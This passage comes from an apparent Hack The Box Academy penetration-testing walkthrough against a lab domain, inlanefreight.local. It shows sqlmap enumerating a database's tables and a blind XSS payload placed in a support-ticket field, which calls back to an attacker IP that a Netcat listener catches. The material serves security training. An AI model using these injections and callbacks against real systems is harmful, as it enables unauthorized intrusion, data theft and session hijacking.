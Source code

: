 
[00:09:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:09:24 /2022-06-21/
</code></pre>
<p>Focusing on the <code>status</code> database, we find that it has just two tables:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -r sqli.txt --dbms=mysql -D status --tables

&lt;SNIP&gt;

---
[00:10:29] [INFO] testing MySQL
[00:10:29] [INFO] confirming MySQL
[00:10:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL &gt;= 8.0.0
[00:10:29] [INFO] fetching tables for database: 'status'
Database: status
[2 tables]
+---------+
| company |
| users   |
+---------+
</code></pre>
<p>From here, we could attempt to dump all data from the <code>status</code> database and record yet another finding, <code>SQL Injection</code>. Try this out manually using the <a href="https://academy.hackthebox.com/module/details/33">SQL Injection Fundamentals</a> module as guidance and refer to the <a href="https://academy.hackthebox.com/module/details/58">SQLMap Essentials</a> module if you need help with the tool-based approach.</p>
<hr/>
<h2>support.inlanefreight.local</h2>
<p>Moving on, we browse the <code>http://support.inlanefreight.local</code> site and see that it is an IT support portal. Support ticketing portals may allow us to engage with a live user and can sometimes lead to a client-side attack where we can hijack a user's session via a <code>Cross-Site Scripting (XSS)</code> vulnerability. Browsing around the application, we find the <code>/ticket.php</code> page where we can raise a support ticket. Let's see if we can trigger some type of user interaction. Fill out all details for a ticket and include the following in the <code>Message</code> field:</p>
<pre><code class="language-javascript"> "&gt;&lt;script src=http://10.10.14.15:9000/TESTING_THIS&lt;/script&gt;
</code></pre>
<p>Change the IP for your own and start a <code>Netcat</code> listener on port 9000 (or whatever port you desire). Click the <code>Send</code> button and check your listener for a callback to confirm the vulnerability.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lvnp 9000

listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.101] 56202
GET /TESTING_THIS%3C/script HTTP/1.1
Host: 10.10.14.15:9000
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
</code></pre>
<p>This is an example of a Blind Cross-Site Scripting (XSS) attack. We can review methods for Blind XSS detection in the <a href="https://academy.hackthebox.com/module/103/section/1008">Cross-Site Scripting (XSS)</a> module.</p>